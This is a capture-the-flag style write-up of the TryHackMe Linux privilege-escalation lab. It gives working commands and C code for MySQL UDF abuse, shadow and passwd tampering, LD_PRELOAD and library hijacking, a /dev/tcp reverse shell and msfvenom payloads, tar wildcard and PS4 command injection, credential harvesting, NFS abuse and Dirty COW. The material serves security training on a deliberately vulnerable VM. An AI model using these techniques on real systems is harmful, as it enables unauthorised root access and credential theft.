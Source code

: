 #+TITLE: TryHackMe - Linux Privesc writeup
#+FILETAGS: :privesc:

- https://tryhackme.com/room/linuxprivesc
- https://github.com/sagishahar/lpeworkshop

	Several tools have been written which help find potential privilege escalations on Linux.

	Some examples are:
	- LinEnum.sh
	- linpeas.sh
	- lse.sh

* Task 1: Deploy the Vulnerable Debian VM

	*Run the "id" command. What is the result?*

	#+begin_src shell
		uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
	#+end_src

* Task 2: Service Exploits

	Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)

	https://www.exploit-db.com/exploits/1518

 *Compile the exploit*

 #+begin_src shell
	 gcc -g -c raptor_udf2.c
	 gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
	 #+end_src

 *Connect to the MySQL service as root*

 #+begin_src shell
	 mysql -u root
 #+end_src

 *Create a UDF 'do_system' using the compiled exploit*

 #+begin_src shell
	 use mysql;
	 create table foo(line blob);
	 insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
	 select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
	 create function do_system returns integer soname 'raptor_udf2.so';
	 #+end_src

 *Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission*

 #+begin_src shell
	 select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
 #+end_src

 *Gain a shell running with root privileges*

 #+begin_src shell
	 /tmp/rootbash -p
 #+end_src

 If the -p option is supplied at invocation, the effective user id is not reset.

[[/home/jb/Projects/hacking/tryhackme/images/linux-privesc1.png]]

* Task 3: Weak File Permissions - Readable /etc/shadow

	The '/etc/shadow' file contains user password hashes and is usually readable only by the root user.

	#+begin_src shell
		# on target machine
		grep root /etc/shadow | cut -d ':' -f2 > hash.txt

		# on Kali VM
		scp user@10.10.25.55:hash.txt hash.tx
		cat hash.txt | hashid
		john --format=sha512crypt --worldlist=/usr/share/wordlists/rockyou.txt hash.txt
	#+end_src

	Switch to root user with `su root`.

* Task 4: Weak File Permissions - Writable /etc/shadow

	The '/etc/shadow' file contains user password hashes and is usually readable only by the root user.

	*Generate a new password hash*

	#+begin_src shell
		mkpasswd -m sha-512 a_password
	#+end_src

	*Edit '/etc/shadow' and replace root user's password hash with the generated one, and switch to root user with `su root`.*

* Task 5: Weak File Permissions - Writable /etc/passwd

	The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user.

	*Generate a new password hash*

	#+begin_src shell
		openssl passwd a_password
	#+end_src

	*Edit '/etc/password' with one of these options:*

	- replace password hash of the root user's row (replacing the "x")
	- copy and append root user's row to the bottom of the file, changing first instance of "root" to "newroot", and replacing password hash with generated one (replacing the "x").

	*Switch to root user with `su root`.*

* Task 6: Sudo - Shell Escape Sequences

	List the programs which sudo allows your user to run:

	#+begin_src shell
		sudo -l
	#+end_src

	https://gtfobins.github.io/

	*One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it? Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.*

	#+begin_src shell
		sudo apache2 -f /etc/shadow
	#+end_src

[[/home/jb/Projects/hacking/tryhackme/images/linux-privesc2.png]]

* Task 7: Sudo - Environment Variables

	Sudo can be configured to inherit certain environment variables from the user's environment.

	#+begin_src shell
		sudo -l

		Matching Defaults entries for user on this host:
		env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

		User user may run the following commands on this host:
		(root) NOPASSWD: /usr/sbin/iftop
		#+end_src

	 - LD_PRELOAD loads a shared object before any others when a program is run.
	 - LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

** LD_PRELOAD

		 *Create a shared object and set the LD_PRELOAD environment variable to the full path of the new shared object:*

	 #+begin_src c preload.c
		 #include <stdio.h>
		 #include <sys/types.h>
		 #include <stdlib.h>

		 void _init() {
			 unsetenv("LD_PRELOAD");
			 setresuid(0,0,0);
			 system("/bin/bash -p");
		 }
	 #+end_src

	 `setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process: 0 is the root user id.

	 #+begin_src shell
		 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
		 sudo LD_PRELOAD=/tmp/preload.so man
	 #+end_src

** LD_LIBRARY_PATH

	 #+begin_src shell
		 # ldd prints shared library dependencies
		 ldd /usr/sbin/apache2
	 #+end_src

	 *Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) and run apache2 using sudo while setting the LD_LIBRARY_PATH environment variable to /tmp.*

	 #+begin_src c library_path.c
		 #include <stdio.h>
		 #include <stdlib.h>

		 static void hijack() __attribute__((constructor));

		 void hijack() {
			 unsetenv("LD_LIBRARY_PATH");
			 setresuid(0,0,0);
			 system("/bin/bash -p");
		 }
	 #+end_src

	 #+begin_src shell
		 gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
		 sudo LD_LIBRARY_PATH=/tmp apache2
	 #+end_src

	*Rename /tmp/libcrypt.so.1 to the name of another library and try again. Why did it not work? Modify library_path.c to make it work.*

	#+begin_src shell
		user@debian:~/tools/sudo$ mv /tmp/libcrypt.so.1 /tmp/libpcre.so.3
		user@debian:~/tools/sudo$ sudo LD_LIBRARY_PATH=/tmp apache2
		apache2: symbol lookup error: apache2: undefined symbol: pcre_free
	#+end_src

	Let's add the missing symbol to 'library_path.c':

	#+begin_src c libray_path.c
		#include <stdio.h>
		#include <stdlib.h>

		static void hijack() __attribute__((constructor));

		void hijack() {
			unsetenv("LD_LIBRARY_PATH");
			setresuid(0,0,0);
			system("/bin/bash -p");
		}

		void pcre_free() {}
	#+end_src

* Task 8: Cron Jobs - File Permissions

	Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.

	#+begin_src shell
		cat /etc/crontab
		locate overwrite.sh
		ls -l /usr/local/bin/overwrite.sh
	#+end_src

	'overwrite.sh' is world-writable! Let's replace its content:

	#+begin_src shell
		#!/bin/bash
		bash -i >& /dev/tcp/10.10.10.10/4444 0>&1 # replace ip adequately
	#+end_src

	Run `nc -lnvp 4444` on your attacking box to set up a netcat listener: a root shell should connect.

* Task 9: Cron Jobs - PATH Environment Variable

	[[/home/jb/Projects/hacking/tryhackme/images/linux-privesc3.png]]

	The PATH variable starts with *'/home/user'* which is the user's home directory. *Create a file called 'overwrite.sh' in the user home directory:*

	#+begin_src shell
		#!/bin/bash

		cp /bin/bash /tmp/rootbash
		chmod +xs /tmp/rootbash
	#+end_src

	#+begin_src shell
		chmod +x /home/user/overwrite.sh

		# after cron job ran
		/tmp/rootbash -p
	#+end_src

* Task 10: Cron Jobs - Wildcards

	#+begin_src shell
		cat /usr/local/bin/compress.sh

		#!/bin/sh
		cd /home/user
		tar czf /tmp/backup.tar.gz *
	#+end_src

	GTOBins has a page for `tar` that shows command line options allowing to run other commands as part of a checkpoing feature.

	https://gtfobins.github.io/gtfobins/tar/

	*Let's use `msfvenom` on the attack to generate a reverse shell ELF binary*

	#+begin_src shell
		msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf # replace LHOST with adequate ip address
		scp shell.elf user@10.10.181.13:shell.elf
	#+end_src

	*In /home/user:*

	#+begin_src shell
		touch /home/user/--checkpoint=1
		touch /home/user/--checkpoint-action=exec=shell.elf
	#+end_src

	When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

 *Set up a netcat listener on the attack box `nc -lnvp 4444`	and wait for the cron job to run: a root shell should connect.*

* Task 11: SUID / SGID Executables - Known Exploits

	*Find all the SUID/SGID executables:*

	#+begin_src shell
		find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
	#+end_src

	`/usr/sbin/exim-4.84-3` has a known exploit for this version: CVE-2016-1531.

	https://www.exploit-db.com/exploits/39535

* Task 12: SUID / SGID Executables - Shared Object Injection

	#+begin_src shell
		/usr/local/bin/suid-so
		strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
		#+end_src

	[[/home/jb/Projects/hacking/tryhackme/images/linux-privesc4.png]]

	*The executable tries to load '/home/user/.config/libcalc.so'. Let's create this file!*

	#+begin_src c libcalc.c
		#include <stdio.h>
		#include <stdlib.h>

		static void inject() __attribute__((constructor));

		void inject() {
			setuid(0);
			system("/bin/bash -p");
		}
	#+end_src

	#+begin_src shell
		mkdir /home/user/.config
		gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
	#+end_src

	Running `/usr/local/bin/suid-so` will get a shell root.

* Task 13: SUID / SGID Executables - Environment Variables

	The '/usr/local/bin/suid-env executable' can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

	#+begin_src shell
		/usr/local/bin/suid-env
		strings /usr/local/bin/suid-env

		/lib64/ld-linux-x86-64.so.2
		5q;Xq
		__gmon_start__
		libc.so.6
		setresgid
		setresuid
		system
		__libc_start_main
		GLIBC_2.2.5
		fff.
		fffff.
		l$ L
		t$(L
		|$0H
		service apache2 start
	#+end_src

	*'service apache2 start' suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.*

	#+begin_src c
		int main() {
			setuid(0);
			system("/bin/bash -p");
		}
	#+end_src

	#+begin_src shell
		gcc -o service /home/user/tools/suid/service.c
		PATH=.:$PATH /usr/local/bin/suid-env
	#+end_src

	Running `/usr/local/bin/suid-env` will get a shell root.

* Task 14: SUID / SGID Executables - Abusing Shell Features (#1)

	The '/usr/local/bin/suid-env2' executable is identical to '/usr/local/bin/suid-env' except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

	#+begin_src shell
		strings /usr/local/bin/suid-env2

		/lib64/ld-linux-x86-64.so.2
		__gmon_start__
		libc.so.6
		setresgid
		setresuid
		system
		__libc_start_main
		GLIBC_2.2.5
		fff.
		fffff.
		l$ L
		t$(L
		|$0H
		/usr/sbin/service apache2 start
	#+end_src

	*In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.*

	Bash version can be verified with `/bin/bash --version`. A function named '/usr/sbin/service' can be created and exported as follow:

	#+begin_src shell
		function /usr/sbin/service { /bin/bash -p; }
		export -f /usr/sbin/service
	#+end_src

	Running `/usr/local/bin/suid-env2` will get a shell root.

* Task 15: SUID / SGID Executables - Abusing Shell Features (#2)

	Note: This will not work on Bash versions 4.4 and above.

	When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

	*Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:*

	#+begin_src shell
		env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
		/tmp/rootbash -p
	#+end_src

* Task 16: Password & Keys - History Files

	If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

	View the contents of all the hidden history files in the user's home directory:

	#+begin_src shell
		cat ~/.*history | less
	#+end_src


	#+begin_src shell
		cat /home/user/.*history | less

				ls -al
				cat .bash_history
				ls -al
				mysql -h somehost.local -uroot -ppassword123
				exit
				cd /tmp
				clear
				ifconfig
				netstat -antp
				nano myvpn.ovpn
				ls
				identify
	#+end_src

	Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

* Task 17: Password & Keys - Config Files

	Note the presence of a myvpn.ovpn config file - it contains a reference to another location where the root user's credentials can be found.

	#+begin_src shell
		cat myvpn.ovpn

				client
				dev tun
				proto udp
				remote 10.10.10.10 1194
				resolv-retry infinite
				nobind
				persist-key
				persist-tun
				ca ca.crt
				tls-client
				remote-cert-tls server
				auth-user-pass /etc/openvpn/auth.txt
				comp-lzo
				verb 1
				reneg-sec 0

		cat /etc/openvpn/auth.txt
	#+end_src

* Task 18: Password & Keys - SSH Keys

	Sometimes users make backups of important files but fail to secure them with the correct permissions.

	The system root '/' contains a hidden directory '.ssh' with a word-readable file called 'root_key', a prive SSH key.

	Copy the file over to the attack box and use it to connect to the target via SSH:

	#+begin_src shell
		chmod 600 root_key
		ssh -i root_key root@10.10.10.10
	#+end_src

* Task 19: NFS

	Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

	Check the NFS share configuration on the Debian VM:

	#+begin_src shell /etc/exports
		# /etc/exports: the access control list for filesystems which may be exported
		#               to NFS clients.  See exports(5).
		#
		# Example for NFSv2 and NFSv3:
		# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
		#
		# Example for NFSv4:
		# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
		# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
		#

		/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

		#/tmp *(rw,sync,insecure,no_subtree_check)
	#+end_src

	Not that the '/tmp' share has root squashing disabled: *"no_root_squash"*.

	*On the attack box, switch to root user, create a mount point and mount the /tmp share:*

	#+begin_src shell
		mkdir /tmp/nfs
		mount -o rw,vers=2 10.10.180.69:/tmp /tmp/nfs
	#+end_src

	*On the attack box, generate a payload using msfvenom and save it to the mounted share:*

	#+begin_src shell
		msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
		chmod +xs /tmp/nfs/shell.elf
	#+end_src

	*Back on the target, as the low privileged account, execute the file to gain a root shell:*

	#+begin_src shell
		/tmp/shell.elf
	#+end_src

* Task 21: Kernel Exploits

	Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

	*Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:*

	#+begin_src shell
		perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
	#+end_src

	The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

	*Compile the code and run it (note that it may take several minutes to complete):*

	#+begin_src shell
		gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
		./c0w
	#+end_src

	*Once the exploit completes, run /usr/bin/passwd to gain a root shell:*

	#+begin_src shell
		/usr/bin/passwd
	#+end_src

	*Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!*

	#+begin_src shell
		mv /tmp/bak /usr/bin/passwd
		exit
	#+end_src
